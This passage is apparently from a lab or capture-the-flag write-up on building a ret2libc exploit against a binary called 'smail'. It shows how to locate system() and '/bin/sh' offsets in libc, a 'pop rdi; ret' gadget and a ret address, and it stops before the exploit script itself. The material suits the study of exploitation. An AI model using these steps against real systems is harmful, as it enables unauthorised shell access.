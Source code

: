   * To call system, we would need its memory location:

    ```sh
    readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
    # -s to search for symbols
    ```

    ```text
    232: 0000000000159cd0    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
    607: 000000000004f550    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
    1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
    ```
  
  * We have the offset of system from libc base - ```0x4f550```

  * Since ```/bin/sh``` is a string, we can use ```strings``` on the dynamic library found earlier with ```ldd```. When passing strings as parameters, we need to pass a pointer to string and not its hex representation due to how C works:

    ```sh
    strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
    # -a scans entire file
    # -t outputs offset in hex

    # this gives us the location '1b3e1a' - ```0x1b3e1a```
    ```
  
  * Before creating the exploit, we would also need ```pop rdi; ret``` address to put the parameter into the RDI register according to the example:

    ```sh
    ROPgadget --binary smail | grep rdi
    # this gives address '0x4007f3'
    ```
  
  * Finally, return address also to be included (without this, the exploit hangs):

    ```sh
    objdump -d smail | grep ret
    # -d for disassemble
    # note the first 'retq' address - 0x400556
    ```
  
  * Based on the above info, we can create our Python exploit script similar to the given examples:
